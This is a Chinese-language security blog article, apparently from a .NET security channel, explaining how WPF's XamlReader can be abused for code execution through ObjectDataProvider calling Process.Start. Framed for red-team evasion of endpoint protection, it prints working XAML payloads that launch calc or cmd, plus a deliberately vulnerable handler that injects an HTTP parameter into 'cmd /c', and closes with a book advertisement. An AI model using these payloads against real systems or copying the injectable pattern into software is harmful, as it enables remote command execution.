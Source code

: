 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247499946&idx=1&sn=f6d83334f2b3d76da4e6c8d0a39c7284

#  .NET WPF 下的新思路，通过 XAML 实现代码执行  
原创 专攻.NET安全的  dotNet安全矩阵   2025-06-24 00:43  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/NO8Q9ApS1YibJO9SDRBvE01T4A1oYJXlTBTMvb7KbAf7z9hY3VQUeayWI61XqQ0ricUQ8G1FykKHBNwCqpV792qg/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=webp "")  
  
在红队渗透测试中，寻找一条干净、无文件、规避防护的命令执行路径一直是行动的关键。传统的 Web Shell、反序列化漏洞、反射加载等方式虽然威力强大，但在 EDR 与主机防护产品，比如 Defender、360、火绒日渐严密的今天，往往难以隐身。  
  
本文将聚焦一个极少被利用的 .NET 攻击面 —— **XamlReader 动态解析 XAML 的特性**  
。通过精心构造的 XAML 载荷，我们可以在目标机器上无文件启动任意系统进程，实现隐蔽的远程命令执行。  
  
**01. 技术背景介绍**  
  
  
  

```
在 .NET 应用中，WPF 因其强大的界面绘制能力和灵活的数据绑定机制而被广泛使用。与传统的 Windows Forms 不同，WPF 使用一种名为 XAML 的声明式标记语言来描述 UI 元素和数据交互逻辑。
```

  
## 1.1 WPF 框架  
  
WPF 是 Microsoft 在 .NET Framework 3.0 中引入的一套 UI 框架，专为构建丰富客户端应用而设计。与 WinForms 相比，WPF 支持硬件加速渲染、更强的控件组合能力、样式控制、动画、数据绑定等高级特性。在 WPF 应用中，通常通过 XAML 文件来定义界面布局，然后在后台代码中为控件编写逻辑。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YicyKu2gFrnmmCvMAPUeLCiaMI6UMeEuYBPs645hATYjane3yu3CInZ0ORC3P457KIO09O3MQbgF8Hg/640?wx_fmt=png&from=appmsg "")  
## 1.2 XAML 介绍  
  
XAML 是一种基于 XML 的标记语言，用于声明 UI 组件及其行为。例如，一个简单的按钮控件可以如下声明：  
  

```
<Button Content=&#34;点击我&#34; Width=&#34;100&#34; Height=&#34;50&#34;/>

```

  
  
XAML 允许嵌套、绑定、动画、数据源等复杂逻辑。例如：  
  

```
<ObjectDataProvider x:Key=&#34;launch&#34; ObjectType=&#34;{x:Type sys:Process}&#34; MethodName=&#34;Start&#34;>
<ObjectDataProvider.MethodParameters>
<sys:String>calc.exe</sys:String>
</ObjectDataProvider.MethodParameters>
</ObjectDataProvider>

```

  
  
以上声明可在运行时调用 
```
Process.Start(&#34;calc.exe&#34;)
```

  
 启动计算器。  
  
**02. XamlReader**  
  
  
  

```
System.Windows.Markup.XamlReader 是 WPF 的核心类之一，存在于 
```


```
PresentationFramework.dll
```

  
 中。该类提供了一系列方法，可用于将 XAML 字符串或流解析成实际的 .NET 对象。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YicyKu2gFrnmmCvMAPUeLCiaMn7DUzmnajzZlFhO6qJlM4pt28NIaLAVMQEOr7RsDopZrNSC0Y2p1Ag/640?wx_fmt=png&from=appmsg "")  
## 2.1 动态构造XAML  
  
在支持 WPF 的 Web API、富客户端、插件化平台或用户自定义模板系统中，若系统直接调用了 
```
XamlReader.Parse()
```

  
 来解析用户输入的数据，便存在命令执行的风险，具体代码如下所示。  
  

```
publicstaticvoidCodeInject(string input)
{
StringBuilder xaml =newStringBuilder();
    xaml.Append(&#34;<ResourceDictionary &#34;);
    xaml.Append(&#34;xmlns=\&#34;http://schemas.microsoft.com/winfx/2006/xaml/presentation\&#34; &#34;);
    xaml.Append(&#34;xmlns:x=\&#34;http://schemas.microsoft.com/winfx/2006/xaml\&#34; &#34;);
    xaml.Append(&#34;xmlns:b=\&#34;clr-namespace:System;assembly=mscorlib\&#34; &#34;);
    xaml.Append(&#34;xmlns:pro=\&#34;clr-namespace:System.Diagnostics;assembly=System\&#34;>&#34;);
    xaml.Append(&#34;<ObjectDataProvider x:Key=\&#34;obj\&#34; ObjectType=\&#34;{x:Type pro:Process}\&#34; MethodName=\&#34;Start\&#34;>&#34;);
    xaml.Append(&#34;<ObjectDataProvider.MethodParameters>&#34;);
    xaml.Append(&#34;<b:String>cmd</b:String>&#34;);
    xaml.Append($&#34;<b:String>/c {input}</b:String>&#34;);
    xaml.Append(&#34;</ObjectDataProvider.MethodParameters>&#34;);
    xaml.Append(&#34;</ObjectDataProvider>&#34;);
    xaml.Append(&#34;</ResourceDictionary>&#34;);

    XamlReader.Parse(xaml.ToString());
}

```

  
  
上述代码段中，程序利用
```
StringBuilder
```

  
类动态构建了一个  
XAML  
字符串，该字符串定义了一个
```
ResourceDictionary。
```

  
  
其中包含了一个
```
ObjectDataProvider
```

  
元素，这个
```
ObjectDataProvider
```

  
被配置为启动
```
System.Diagnostics.Process
```

  
类的
```
Start
```

  
方法，进而调用
```
cmd.exe /c
```

  
命令运行指定的程序，如
```
winver.exe
```

  
。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YicyKu2gFrnmmCvMAPUeLCiaMTiaibWdfK6uZaV1mIJib4cLVdsoM8prpXoUdV0wenEqnicxjZQ1quFeNPQ/640?wx_fmt=png&from=appmsg "")  
  
  
如果部署了如下 
```
ashx
```

  
 接口，通过  
HTTP  
请求访问
```
XamlReaderParseSpy.ashx?input=winver
```

  
，可以触发此  
XAML  
代码的解析并成功启动进程。  
  

```
publicvoidProcessRequest(HttpContext context)
{
string cmd = context.Request[&#34;input&#34;];
CodeInject(cmd);
}

```

  
## 2.2 文件方式触发  
  

```
XamlReader.Load 可解析来自本地磁盘的 
```


```
.xaml
```

  
 文件，若系统允许用户上传或修改 
```
.xaml
```

  
 配置，攻击者可构造恶意文件并上传，等待后台加载。  
  

```
<Window xmlns=&#34;http://schemas.microsoft.com/winfx/2006/xaml/presentation&#34;
        xmlns:x=&#34;http://schemas.microsoft.com/winfx/2006/xaml&#34;
        xmlns:sys=&#34;clr-namespace:System;assembly=mscorlib&#34;
        xmlns:local=&#34;clr-namespace:System.Diagnostics;assembly=System&#34;>
<Window.Resources>
<ObjectDataProvider x:Key=&#34;cmd&#34; ObjectType=&#34;{x:Type local:Process}&#34; MethodName=&#34;Start&#34;>
<ObjectDataProvider.MethodParameters>
<sys:String>calc</sys:String>
</ObjectDataProvider.MethodParameters>
</ObjectDataProvider>
</Window.Resources>
</Window>

```

  
  

```
通过LoadAsync方法正常解析Dictionary2.xaml文件中保存的攻击负载，成功启动本地计算器进程，如下图所示。
```

  
  

```

```

  
综上，
```
XamlReader
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YicyKu2gFrnmmCvMAPUeLCiaM9dwmUUIv73sywQo4t1lZUueVBOn7dTgs4s8Sq0hec7PtyHDYqYdnhA/640?wx_fmt=png&from=appmsg "")  
  
以上相关的知识点已收录于  
新书《.NET安全攻防指南》，全书共计25章，总计1010页，分为上下册，横跨.NET Web代码审计与红队渗透两大领域。  
  
  
**上册深入剖析.NET Web安全审计的核心技术，帮助读者掌握漏洞发现与修复的精髓；下册则聚焦于.NET逆向工程与攻防对抗的实战技巧，揭秘最新的对抗策略与技术方法。**  
  
  
**自《.NET安全攻防指南》上线以来，许多读者已抢先下单成功购入并收到了书籍，反响热烈，好评如潮！**  
  
**感谢大家的支持，我们也将持续为大家带来更多优质的.NET安全研究成果！原价258元，现限量优惠，京东自营店全套仅售127元，数量有限！点击京东链接：https://item.jd.com/10140917044329.html 或者打开手机京东APP即可下单购买。**  
  
  
